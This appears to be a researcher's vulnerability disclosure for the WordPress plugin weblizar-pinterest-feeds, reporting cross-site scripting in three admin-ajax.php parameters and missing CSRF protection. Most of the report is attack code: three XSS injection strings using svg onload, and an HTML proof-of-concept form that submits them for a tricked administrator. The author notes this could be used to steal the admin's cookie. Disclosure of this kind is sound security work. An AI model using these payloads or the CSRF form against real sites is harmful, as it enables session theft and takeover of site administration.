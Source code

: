Well ,sir ,I just found a XSS bug and a CSRF bug at wp-plugin weblizar-pinterest-feeds.

#### XSS

```
http://127.0.0.1/wordpress/wp-admin/admin-ajax.php
```

When I pentest the  parameter, I found it does not filter well.

Weak data parameters:

```
1.PFFREE_Access_Token=test'"><svg/onload=console.log(/xss1/)><'"
2.weblizar_pffree_settings_save_get-users=1'"><svg/onload=console.log(/xss2/)><'"
3.action=pffree_security&security=test'"><svg/onload=console.log(/xss3/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/weblizar-pinterest-feeds/xss.png)


#### CSRF

Well, the xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="PFFREE&#95;Access&#95;Token" value="test&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss1&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="weblizar&#95;pffree&#95;settings&#95;save&#95;get&#45;users" value="1&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss2&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="action" value="pffree&#95;security" />
      <input type="hidden" name="security" value="test&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss3&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin weblizar-pinterest-feeds.